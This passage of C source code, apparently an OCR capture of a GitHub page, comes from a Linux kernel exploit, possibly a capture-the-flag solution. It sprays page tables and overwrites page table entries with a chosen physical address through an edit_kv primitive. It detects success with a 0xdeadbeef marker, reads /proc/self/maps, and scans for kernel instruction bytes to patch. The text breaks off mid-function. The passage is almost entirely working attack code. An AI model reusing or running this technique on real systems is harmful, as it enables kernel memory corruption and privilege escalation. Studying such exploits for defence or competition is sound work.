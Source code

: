 ```c
  log_info("filled cpu partial");

  // alloc pte
  for (int i = 0; i < 100; i++) {
    uint64_t *p = SYSCHK(pti_mmap(log_null, 0, 1, i, 0, MAPDEF));
    *p = 0x1234; // touch page
  }

  int pmd, pte;
  for (pmd = 0; pmd < 0x200; pmd++) {
    log_info("pmd = %x", pmd);

    for (pte = 0x200 - 1; 0 <= pte; pte--) {
      pgaddr addr = from_pti(0, 1, pmd, pte, 0);
      uint64_t *volatile p = SYSCHK(lgmmap(log_null, addr.ptr, MAPDEF));
      *p = 0xdeadbeef;

      edit_kv(0, phy_to_pte(0x0a58b6)); // maybe rewrite pte table

      if (*p != 0xdeadbeef) // overwrite!
        goto found;

      SYSCHK(lgmunmap(log_null, addr.ptr, 0x1000));
    }
  }

  DIE("bad luck");

found:;

  char search[0x10];
  snprintf(search, 0x10, "%lx", (uint64_t)from_pti(0, 1, pmd, pte, 0).ptr);

  log_succ("found! pmd = %x, pte = %x, address = %s", pmd, pte, search);

  int maps = SYSCHK(open("/proc/self/maps", O_RDONLY));
  char line[0x100];
  for (int pos = 0; read(maps, &line[pos], 1); pos++) {
    if (line[pos] == '\n') {
      if (strstr(line, search) != 0) {
        log_succ("found victim entry from /proc/self/maps");
        log_succ("%.*s", pos, line);
        break;
      }
      pos = -1;
    }
  }
  close(maps);

  pte -= 4;
  // sizeof(memo) = 0x28

  uint64_t dest = 0x0a58b6;
  uint64_t offset = dest & 0xfff;
  unsigned char *addr = from_pti(0, 1, pmd, pte, offset).ptr;

  REP1(0x100) {
    edit_kv(0, phy_to_pte(dest));

    if ((addr[0] == 0x84) && (addr[1] == 0xc0)) {
      // 0x84, 0xc0: test al, al

      hexdump(log_info, addr, 0x80);
```
